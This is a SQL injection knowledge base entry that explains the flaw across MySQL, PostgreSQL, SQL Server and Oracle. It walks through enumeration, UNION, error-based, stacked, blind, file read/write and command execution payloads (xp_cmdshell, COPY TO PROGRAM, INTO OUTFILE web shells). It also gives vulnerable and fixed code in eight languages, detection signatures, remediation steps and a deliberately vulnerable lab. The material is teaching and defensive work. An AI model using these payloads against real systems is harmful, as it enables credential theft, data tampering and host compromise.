

<!--
  Translation bar (added in the translation phase - D1/D10):
  English (this file)

  Writing style: no em dashes in prose. Use commas, colons, parentheses, or
  hyphens. (OWASP IDs keep their official en-dash format.)
-->

# SQL Injection

`A05:2025 – Injection` · Web Vulnerability Knowledge Base

## Summary

SQL injection (SQLi) happens when an application builds a SQL statement by
concatenating untrusted input straight into the query text. The database cannot
tell the developer's intended query apart from the attacker's added syntax, so a
value like `' OR '1'='1` stops being **data** and becomes **code**. From a single
injectable parameter an attacker can read every row the database account can see,
bypass authentication, modify or destroy data, and on many engines read and write
files or run operating-system commands.

SQLi is one of the oldest and most damaging web flaws precisely because the
database usually holds the crown jewels: credentials, personal data, payment
records. This entry covers the four database families you meet most often in the
field, with their engineering details, the enumeration workflow, and the main
exploitation techniques, then a runnable **Citizen Services** lab that talks to
all four real engines.

## OWASP Top 10 alignment

- **Category:** `A05:2025 – Injection`
- **Why it maps here:** SQL injection is the archetypal injection flaw. Untrusted
  input crosses into an interpreter (the SQL parser) and changes the structure of
  the command, not just its data. It is tracked as **CWE-89 (Improper
  Neutralization of Special Elements used in an SQL Command)**. In the Top
  10:2025, Injection is `A05:2025`; it was `A03:2021` and, further back, its own
  `A01:2017 – Injection` category. The fix (parameterized queries) is the same
  regardless of the database engine.

## How it works

Three things have to line up: an **untrusted source**, a **query built by string
concatenation**, and a **database that parses the combined string as one
statement**.

- **Source** - any value the caller controls: a search box, a URL parameter, a
  hidden field, an HTTP header, a cookie, a JSON body, even a value that was
  stored earlier and is later concatenated into a query (second-order SQLi).
- **Missing control** - the value reaches the SQL text with no separation between
  code and data: `"... WHERE surname = '" + surname + "'"`. The moment the input
  contains a quote, the attacker can close the string literal and append their own
  syntax. The bug is at the **query-construction** step, not the input step;
  storing raw bytes is fine, concatenating them into SQL is not.
- **Interpreter** - the engine compiles the whole string. `' OR '1'='1' -- ` turns
  a single-row lookup into an all-rows dump; `UNION SELECT ...` grafts a second
  result set on; `; UPDATE ...` (where the driver allows multiple statements) runs
  a second command entirely.

What the attacker gains depends on **where the injection lands** (string context,
numeric context, an `ORDER BY`, a `LIMIT`, an identifier) and **what the database
account is allowed to do**. A least-privileged, read-only account limits the blast
radius; a `root`/`sa`/`SYSTEM`/superuser account turns SQLi into full server
compromise (file read/write, command execution).

The one durable fix is to **never build queries by concatenation**. Use
parameterized queries (prepared statements) so the driver sends the SQL structure
and the parameter values on separate channels; the value can then never change the
query's meaning, no matter what characters it contains.

## Attack path



1. The attacker finds a parameter that reaches a SQL query (a citizen lookup that
   reflects results or database errors).
2. They break out of the string context with a quote and confirm injection: a
   `'` yields a database error, `' OR '1'='1` returns extra rows.
3. They **enumerate** the backend: fingerprint the engine, read its version, the
   current user and privileges, then the list of databases, tables, and columns.
4. They pick the target table (here, `user_table`, which holds credentials) and
   **exfiltrate** it, most directly with a `UNION SELECT` grafted onto the
   original result set.
5. If results are not shown, they fall back to **error-based** (leak data inside a
   forced error message) or **blind** (infer one bit at a time from the page's
   true/false behaviour or its response time).
6. With a privileged account they escalate: **stacked queries** to insert or update
   rows, and **file** primitives to read or write the filesystem.
7. The recovered secret (here an MD5 flag stored in `user_table`) confirms the
   compromise.

## Database engineering reference

The four families behave differently on the wire and on disk. Knowing the default
ports and paths speeds up both fingerprinting and post-exploitation.

| | **MariaDB / MySQL** | **PostgreSQL** | **Microsoft SQL Server** | **Oracle Database** |
|---|---|---|---|---|
| **Default port** | `3306/tcp` | `5432/tcp` | `1433/tcp` (+ `1434/udp` browser) | `1521/tcp` (TNS listener) |
| **Default admin** | `root` | `postgres` | `sa` | `SYS` / `SYSTEM` |
| **String concat** | `CONCAT(a,b)` | `a \|\| b` | `a + b` | `a \|\| b` |
| **Comment** | `-- ` , `#` , `/* */` | `-- ` , `/* */` | `-- ` , `/* */` | `-- ` , `/* */` |
| **Install path (Linux)** | `/usr/sbin/mysqld`, data in `/var/lib/mysql/` | `/usr/lib/postgresql/<ver>/`, data in `/var/lib/postgresql/<ver>/main/` | `/opt/mssql/` (bin), data in `/var/opt/mssql/data/` | `$ORACLE_HOME` e.g. `/opt/oracle/product/<ver>/`, data in `oradata/` |
| **Install path (Windows)** | `C:\Program Files\MariaDB <ver>\` | `C:\Program Files\PostgreSQL\<ver>\` | `C:\Program Files\Microsoft SQL Server\` | `C:\app\<user>\product\<ver>\` |
| **Main config file** | `my.cnf` / `my.ini` (`/etc/mysql/my.cnf`) | `postgresql.conf` + `pg_hba.conf` (in data dir) | via `mssql-conf` -> `/var/opt/mssql/mssql.conf` | `init<SID>.ora` / `spfile<SID>.ora`, listener in `listener.ora`, names in `tnsnames.ora` |
| **CLI client** | `mysql` / `mariadb` | `psql` | `sqlcmd` | `sqlplus` |

## Enumeration

The same workflow applies to every engine, only the syntax changes. Fingerprint
first (the functions below fail on the wrong engine, which is itself a tell), then
walk version -> user -> databases -> tables -> columns.

**Identify version**

| MariaDB / MySQL | PostgreSQL | SQL Server | Oracle |
|---|---|---|---|
| `SELECT @@version;` or `SELECT version();` | `SELECT version();` | `SELECT @@version;` | `SELECT banner FROM v$version;` |

**Identify current user**

| MariaDB / MySQL | PostgreSQL | SQL Server | Oracle |
|---|---|---|---|
| `SELECT current_user();` / `SELECT user();` | `SELECT current_user;` | `SELECT SYSTEM_USER;` | `SELECT user FROM dual;` |

**Identify databases / schemas**

| MariaDB / MySQL | PostgreSQL | SQL Server | Oracle |
|---|---|---|---|
| `SELECT schema_name FROM information_schema.schemata;` | `SELECT datname FROM pg_database;` | `SELECT name FROM sys.databases;` | `SELECT DISTINCT owner FROM all_tables;` |

**Identify tables within a database**

| MariaDB / MySQL | PostgreSQL | SQL Server | Oracle |
|---|---|---|---|
| `SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE();` | `SELECT tablename FROM pg_tables WHERE schemaname='public';` | `SELECT name FROM sys.tables;` | `SELECT table_name FROM all_tables WHERE owner='CITIZEN';` |

**Identify column names and datatypes**

| MariaDB / MySQL | PostgreSQL | SQL Server | Oracle |
|---|---|---|---|
| `SELECT column_name,data_type FROM information_schema.columns WHERE table_name='user_table';` | `SELECT column_name,data_type FROM information_schema.columns WHERE table_name='user_table';` | `SELECT c.name,t.name FROM sys.columns c JOIN sys.types t ON c.user_type_id=t.user_type_id WHERE object_id=OBJECT_ID('user_table');` | `SELECT column_name,data_type FROM all_tab_columns WHERE table_name='USER_TABLE';` |

`information_schema` is the ANSI catalog and exists on MySQL/MariaDB, PostgreSQL,
and SQL Server, so `information_schema.columns` is a portable fallback for the
first three. Oracle does not implement it; use the `ALL_*` / `USER_*` data
dictionary views (`all_tables`, `all_tab_columns`) and remember Oracle folds
unquoted identifiers to UPPERCASE.

## Exploitation techniques

### Error-based

**What it is.** The application returns the database's error text to the client.
You force the value you want into that error message. Works when results are not
displayed but errors are.

**Useful functions.**

- MySQL/MariaDB: `EXTRACTVALUE(1, CONCAT(0x7e,(SELECT ...)))`,
  `UPDATEXML(1,CONCAT(0x7e,(SELECT ...)),1)` (the `~` in `0x7e` marks the leak).
- PostgreSQL: `CAST((SELECT ...) AS int)` (a type-cast error prints the string).
- SQL Server: `CONVERT(int,(SELECT ...))` or `CAST((SELECT ...) AS int)`.
- Oracle: `CTXSYS.DRITHSX.SN(1,(SELECT ...))` or `UTL_INADDR.GET_HOST_NAME((SELECT ...))`.

```
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT password_hash FROM user_table LIMIT 1)))-- -
```

### UNION-based (exfiltrating data from another table)

**What it is.** `UNION SELECT` appends a second query's rows to the first result
set, letting you pull columns from any table the account can read. Two rules: the
number of columns must match, and their types must be compatible (use `NULL`
placeholders, then swap in the values you want).

**Workflow.** Find the column count (`ORDER BY n` until it errors, or
`UNION SELECT NULL,NULL,...`), find which columns are printed, then select the
target data into those positions.

```
' UNION SELECT NULL,username,password_hash,NULL,NULL FROM user_table-- -
```

Concatenate several columns into one printed slot with the engine's operator:
`CONCAT(username,':',password_hash)` (MySQL), `username||':'||password_hash`
(PostgreSQL/Oracle), `username+':'+password_hash` (SQL Server).

### Stacked queries (inserting and updating data)

**What it is.** Terminate the first statement with `;` and run a second, entirely
separate one: `INSERT`, `UPDATE`, `DELETE`, `DROP`, or a privilege change. Unlike
UNION, stacking is not limited to `SELECT`.

**Engine support matters.** Stacked queries need the driver/API to allow multiple
statements per call. They work on **SQL Server** and **PostgreSQL** by default, are
**usually blocked on MySQL/MariaDB** (the common single-statement APIs execute one
statement per call), and are **not supported by Oracle** through a normal statement
(its parser rejects the trailing `;` batch). Know your backend before relying on
this.

```
'; UPDATE user_table SET password_hash='pwned' WHERE username='admin'-- -
```

### Blind SQLi

**What it is.** No data and no errors come back, only a difference you can observe.
You ask the database yes/no questions and read the answer from that difference.

- **Boolean-based:** the page renders differently for a true vs false condition.
  `' AND SUBSTRING((SELECT password_hash FROM user_table LIMIT 1),1,1)='a'-- -`
  then binary-search each character.
- **Time-based:** when even the true/false difference is hidden, make a true
  condition sleep and measure the response time.

**Useful delay functions.**

| MySQL/MariaDB | PostgreSQL | SQL Server | Oracle |
|---|---|---|---|
| `SLEEP(5)` (via `AND IF(cond,SLEEP(5),0)`) | `pg_sleep(5)` | `WAITFOR DELAY '0:0:5'` | `dbms_lock.sleep(5)` / `dbms_session.sleep(5)` |

### Reading and writing files

**What it is.** With a privileged account the database can touch the host
filesystem: read secrets (config, hashes, keys) or write a file (a web shell into
the document root). Almost always gated by configuration and privilege.

| Operation | MySQL/MariaDB | PostgreSQL | SQL Server | Oracle |
|---|---|---|---|---|
| **Read a file** | `SELECT LOAD_FILE('/etc/passwd');` (needs `FILE` priv + `secure_file_priv`) | `pg_read_file('/etc/passwd')` or `COPY t FROM '...'` (superuser) | `SELECT * FROM OPENROWSET(BULK '/etc/passwd', SINGLE_CLOB) x;` | `UTL_FILE.GET_LINE` (needs a `DIRECTORY` object) |
| **Write a file** | `SELECT ... INTO OUTFILE '/var/www/html/s.php';` | `COPY t TO '/var/www/html/s.php';` (superuser) | `xp_cmdshell` / `OLE` (if enabled) | `UTL_FILE.PUT_LINE` (`DIRECTORY` object) |
| **Command exec** | UDF (rare, needs write to plugin dir) | `COPY ... TO/FROM PROGRAM '...'` (superuser) | `EXEC xp_cmdshell 'whoami';` (if enabled) | Java stored proc / `DBMS_SCHEDULER` |

These are the reason "just a read-only search box" can end in host compromise:
the query runs with the database account's privileges, not the web user's.

**Per-engine, how the file primitives actually behave.** The four engines differ
sharply here, which is why the lab's "Municipal notice reader" behaves differently
per database.

- **MariaDB / MySQL.** `LOAD_FILE('/path')` returns the file as a value, so it
  drops straight into an injection: `' UNION SELECT LOAD_FILE('/etc/passwd'),
  NULL,NULL-- -`. It only works when all of these hold: the account has the `FILE`
  privilege, `secure_file_priv` is empty or points at the file's directory, the
  file is readable by the `mysqld` OS user, and it is smaller than
  `max_allowed_packet`. A subtle gotcha: if any condition fails, `LOAD_FILE`
  returns `NULL` rather than an error, so a "blank" result usually means a
  privilege or path problem, not that the file is empty. Writing uses
  `SELECT ... INTO OUTFILE '/var/www/html/shell.php'` (or `INTO DUMPFILE` for
  binary); same `FILE` + `secure_file_priv` gate, and it cannot overwrite an
  existing file, which is why attackers target a fresh path in the web root.

- **PostgreSQL.** `pg_read_file('path')` reads a file as text and slots into a
  UNION the same way. By default it is limited to paths under the data directory;
  reading an absolute path such as `/etc/passwd` needs the `pg_read_server_files`
  role, which a superuser has. `COPY target FROM '/path'` loads a file into a table
  (then you SELECT it back), and `COPY target TO '/path'` writes one, both
  superuser-only. The same `COPY ... TO/FROM PROGRAM '...'` form runs an OS command,
  turning file access into command execution on a superuser connection.

- **Microsoft SQL Server.** There is no scalar file function, so reads go through
  `OPENROWSET(BULK '/path', SINGLE_CLOB)`, which is a rowset and therefore enters an
  injection as a subquery:
  `' UNION SELECT (SELECT BulkColumn FROM OPENROWSET(BULK '/etc/passwd',
  SINGLE_CLOB) AS x),NULL-- -`. It needs the `ADMINISTER BULK OPERATIONS`
  permission (or the `bulkadmin` role). Writing and command execution are usually
  reached through `xp_cmdshell`, which is disabled by default but can be turned back
  on by a high-privilege login (`sa`) with `sp_configure 'xp_cmdshell',1;
  RECONFIGURE`, after which `EXEC xp_cmdshell 'whoami'` runs OS commands. OLE
  Automation procedures are an alternative write/exec path.

- **Oracle.** Oracle is the outlier and the reason the lab's Oracle notice reader
  is explanatory only. Oracle has no in-band file-read function you can drop into a
  `SELECT`: reading a file requires PL/SQL. The standard methods are
  `UTL_FILE.GET_LINE` (which needs a `DIRECTORY` object plus a `READ` grant, e.g.
  `CREATE DIRECTORY d AS '/path'; ` then open and loop the file in a PL/SQL block),
  an **external table** using the `ORACLE_LOADER` access driver over a `DIRECTORY`
  object, or `BFILENAME` with `DBMS_LOB`. Because the injection point in this lab is
  an ordinary `SELECT`, and Oracle does not allow stacked statements or a raw PL/SQL
  block through that channel, none of these are reachable in-band. In a real
  engagement an Oracle file read therefore relies on a pre-existing helper function,
  a PL/SQL injection point, or an out-of-band channel (`UTL_HTTP`, `UTL_INADDR`, or
  XXE via `XMLType`) to smuggle the data out, all of which need elevated privileges.
  Writing is symmetric: `UTL_FILE.PUT_LINE` against a `DIRECTORY` object, or
  `DBMS_SCHEDULER` / a Java stored procedure for command execution.

## Vulnerable & fixed code

> Every block shows the same flaw and its fix. Vulnerable = the input is
> concatenated into the SQL string. Fixed = a **parameterized query** sends the
> SQL and the value on separate channels, so the value can never change the
> query's structure. This is the single fix that works on every engine.

<details open><summary><b>Python</b></summary>

**Vulnerable**
```python
import sqlite3

def find(surname):
    db = sqlite3.connect("app.db")
    # VULNERABLE: surname concatenated straight into the SQL text
    sql = "SELECT id, name, surname FROM customer_table WHERE surname = '" + surname + "'"
    return db.execute(sql).fetchall()
```
**Fixed**
```python
import sqlite3

def find(surname):
    db = sqlite3.connect("app.db")
    # FIXED: ? placeholder - the driver binds the value, never parses it as SQL
    sql = "SELECT id, name, surname FROM customer_table WHERE surname = ?"
    return db.execute(sql, (surname,)).fetchall()
```
Docs: https://docs.python.org/3/library/sqlite3.html#sqlite3-placeholders
</details>

<details><summary><b>Java</b></summary>

**Vulnerable**
```java
// VULNERABLE: string built from user input
Statement st = conn.createStatement();
ResultSet rs = st.executeQuery(
    "SELECT id, name FROM customer_table WHERE surname = '" + surname + "'");
```
**Fixed**
```java
// FIXED: PreparedStatement with a bound parameter
PreparedStatement ps = conn.prepareStatement(
    "SELECT id, name FROM customer_table WHERE surname = ?");
ps.setString(1, surname);
ResultSet rs = ps.executeQuery();
```
Docs: https://docs.oracle.com/javase/tutorial/jdbc/basics/prepared.html
</details>

<details><summary><b>JavaScript</b></summary>

**Vulnerable**
```javascript
// VULNERABLE: template literal concatenates the value into SQL
const rows = await conn.query(
  `SELECT id, name FROM customer_table WHERE surname = '${surname}'`
);
```
**Fixed**
```javascript
// FIXED: placeholder + values array (mysql2 / pg style)
const rows = await conn.query(
  "SELECT id, name FROM customer_table WHERE surname = ?",
  [surname]
);
```
Docs: https://github.com/sidorares/node-mysql2#using-prepared-statements
</details>

<details><summary><b>TypeScript</b></summary>

**Vulnerable**
```typescript
// VULNERABLE: types do not stop SQLi - this still concatenates input
const rows = await pool.query(
  `SELECT id, name FROM customer_table WHERE surname = '${surname}'`
);
```
**Fixed**
```typescript
// FIXED: parameterized query ($1 is bound by the driver, node-postgres)
const rows = await pool.query(
  "SELECT id, name FROM customer_table WHERE surname = $1",
  [surname]
);
```
Docs: https://node-postgres.com/features/queries#parameterized-query
</details>

<details><summary><b>PHP</b></summary>

**Vulnerable**
```php
<?php
// VULNERABLE: value interpolated into the SQL string
$sql = "SELECT id, name FROM customer_table WHERE surname = '" . $surname . "'";
$rows = $pdo->query($sql)->fetchAll();
```
**Fixed**
```php
<?php
// FIXED: PDO prepared statement with a bound parameter
$stmt = $pdo->prepare("SELECT id, name FROM customer_table WHERE surname = ?");
$stmt->execute([$surname]);
$rows = $stmt->fetchAll();
```
Docs: https://www.php.net/manual/en/pdo.prepared-statements.php
</details>

<details><summary><b>Ruby</b></summary>

**Vulnerable**
```ruby
# VULNERABLE: interpolated input in a raw SQL string
rows = conn.exec("SELECT id, name FROM customer_table WHERE surname = '#{surname}'")
```
**Fixed**
```ruby
# FIXED: bound parameter ($1 placeholder, pg gem)
rows = conn.exec_params(
  "SELECT id, name FROM customer_table WHERE surname = $1", [surname]
)
```
Docs: https://www.rubydoc.info/gems/pg/PG/Connection#exec_params-instance_method
</details>

<details><summary><b>Go</b></summary>

**Vulnerable**
```go
// VULNERABLE: fmt.Sprintf builds the query from user input
q := fmt.Sprintf("SELECT id, name FROM customer_table WHERE surname = '%s'", surname)
rows, _ := db.Query(q)
```
**Fixed**
```go
// FIXED: placeholder + argument - database/sql binds it safely
rows, _ := db.Query("SELECT id, name FROM customer_table WHERE surname = ?", surname)
```
Docs: https://go.dev/doc/database/sql-injection
</details>

<details><summary><b>C#</b></summary>

**Vulnerable**
```csharp
// VULNERABLE: interpolated command text
var cmd = new SqlCommand(
    $"SELECT id, name FROM customer_table WHERE surname = '{surname}'", conn);
var reader = cmd.ExecuteReader();
```
**Fixed**
```csharp
// FIXED: parameterized command
var cmd = new SqlCommand(
    "SELECT id, name FROM customer_table WHERE surname = @surname", conn);
cmd.Parameters.AddWithValue("@surname", surname);
var reader = cmd.ExecuteReader();
```
Docs: https://learn.microsoft.com/en-us/dotnet/api/microsoft.data.sqlclient.sqlcommand.parameters
</details>

## Detection signatures

- **Input markers in traffic and logs:** single/double quotes, `--`, `#`, `/*`,
  `UNION`, `SELECT`, `OR 1=1`, `SLEEP(`, `pg_sleep`, `WAITFOR DELAY`,
  `information_schema`, `xp_cmdshell`, and their URL/Unicode/hex-encoded variants
  in query strings, form bodies, headers, and cookies.
- **Database errors reaching users:** `SQL syntax`, `unclosed quotation mark`,
  `ORA-01756`, `unterminated quoted string`, `conversion failed when converting`
  in HTTP responses is a strong tell that input reaches the query and errors are
  exposed (error-based SQLi enabler).
- **Behavioural anomalies:** a single endpoint returning wildly varying row counts,
  bursts of near-identical requests differing by one character (blind
  extraction), or requests whose response time clusters around a fixed delay
  (time-based blind).
- **SAST patterns:** string concatenation or interpolation into query text
  (`"... '" + x`, `f"...{x}..."`, `$"...{x}..."`, `fmt.Sprintf(...query...)`,
  `#{x}` inside SQL), and any raw `execute`/`query` call whose argument is a built
  string rather than a constant with placeholders.
- **Illustrative SIEM query (Splunk-style)** - many single-character-varying
  requests to one endpoint (blind extraction):
  ```
  index=web sourcetype=access_combined uri_path="/query"
  | regex uri_query="(?i)(union\s+select|information_schema|sleep\(|pg_sleep|waitfor\s+delay|or\s+1=1)"
  | stats count values(uri_query) BY src_ip
  | where count > 20
  ```

## Remediation checklist

- [ ] **Use parameterized queries / prepared statements everywhere.** Never build
  SQL by concatenation or interpolation. This is the primary fix and it works on
  every engine.
- [ ] **Use an ORM or query builder correctly.** Let it parameterize; do not drop
  to raw string SQL with interpolation to "just get it working."
- [ ] **Allowlist the parts that cannot be parameterized** (table/column names,
  `ORDER BY` direction, `LIMIT`): map user input to a fixed set of known-good
  values, never pass it through.
- [ ] **Least privilege for the database account.** The web app should connect as
  a low-privilege user with no `FILE`/superuser/`xp_cmdshell` rights, scoped to the
  tables it needs, so a bug cannot become host compromise.
- [ ] **Validate and normalize input** (type, length, format) as defense in depth,
  not as the primary control - validation is not a substitute for parameterization.
- [ ] **Do not leak database errors to clients.** Return a generic message; log the
  detail server-side. This removes the error-based channel.
- [ ] **Harden the engine:** disable or lock down file and command primitives
  (`secure_file_priv`, `xp_cmdshell` off, no superuser web account, restricted
  `DIRECTORY` objects), and keep the server patched.
- [ ] **Add monitoring/WAF** for the signatures above as a detective layer, knowing
  a WAF is a speed bump, not the fix.

## References

- OWASP - SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- OWASP Cheat Sheet - SQL Injection Prevention: https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- OWASP Cheat Sheet - Query Parameterization: https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html
- PortSwigger Web Security Academy - SQL injection: https://portswigger.net/web-security/sql-injection
- PortSwigger - SQL injection cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
- MITRE - CWE-89: https://cwe.mitre.org/data/definitions/89.html

## Lab

A runnable, intentionally vulnerable app lives in [`lab/`](lab/). Unlike the other
labs, this one runs **four real database engines** (MariaDB, PostgreSQL, SQL
Server, Oracle XE) behind one **Citizen Services** portal, so the engine-specific
syntax above behaves exactly as it does in the wild.

```bash
cd lab
docker compose up --build      # first build pulls the four DB images (large); then offline
# open http://127.0.0.1:8000
```

**Goal:** the portal's citizen-lookup forms concatenate your input into the query.
Pick a database, confirm the injection, enumerate it, then exfiltrate the
**MD5 flag** stored as the `password_hash` of the `wwa_admin` row in `user_table`
(UNION-based is the most direct route; error-based and blind also work). Submit the
flag in the answer box. The flag rotates on every restart.

Each database ships the same relational schema:

```
group_table(group_id PK, "group")
user_table(id PK, username, password_hash, salt, "group" -> group_table.group_id)
customer_table(id PK, name, surname, national_id, address)
```
